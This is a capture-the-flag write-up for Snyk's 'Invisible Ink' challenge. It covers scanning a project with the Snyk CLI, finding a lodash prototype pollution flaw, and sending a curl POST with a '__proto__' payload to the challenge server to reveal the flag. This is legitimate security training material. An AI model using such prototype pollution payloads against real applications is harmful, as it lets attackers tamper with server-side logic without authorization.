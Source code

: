 # Invisible Ink

Expose hidden vulnerabilities in the web application.

## Objective

Retrive a flag throuh a POST request manipulating the value through a vulnerability

# Resources to install

***Link***: https://ctf-101.snyk.io/challenges#Invisible%20Ink

***Server***: http://35.211.53.53:8000/

Expose hidden vulnerabilities in the web application.

***Hint***: download Snyk CLI scans to the packet.json -> 
https://github.com/snyk/snyk#installation

Install npm if you don't have ii yet:

```
$sudo apt-get install npm
```

Now install snyk CLI:

```
$npm install snyk@latest -g
```

You need to access to snyk before you can run the command to test the package->

```
$snyk auth  (I suggest to access with gitHub)
```

Now you have to install the package

***what is package.json*** -> https://blog.ezekielekunola.com/understanding-the-package.json-file

```
$npm install package.json
```

Run this command into the folder with package.json, where you have just ran the previous command:

```
$snyk monitor
```

This command will show you the current vulnerabilities found.
Possible  response:

Explore this snapshot at https://app.snyk.io/org/emanuelepicas/project/3137722f-04f4-4af7-8a0e-2952b5192a51/history/f2123751-8d69-448f-83d6-87c2d005d96b

Notifications about newly disclosed issues related to these dependencies will be emailed to you.

Click on the link generated here you will find the current Vunerabilities



Browsing into the ***server*** to hack, you will find a response, which will suggest you a request to do.
Below there is the command to run:

```
$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message": "ping"}' 
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651490382169,"message":"ping","flag":"disabled"} 

If we take a look at the file index.js, we can see that the script will output the flag if the value of the flag is on true.


We need to manipulate the object to retrive the flag using a vulnerabilities that we can find from the previous command: "snyk monitor"

A good one could be prototipe pollution:

https://security.snyk.io/vuln/SNYK-JS-LODASH-567746

This could be a possible solution:

```
$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message":"ping","__proto__":{"flag":"true"}}'
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651497940769,"message":"ping","flag":"SNYK{FLAGTOFIND}"} 

# Reference

***understanding prototype*** -> https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/
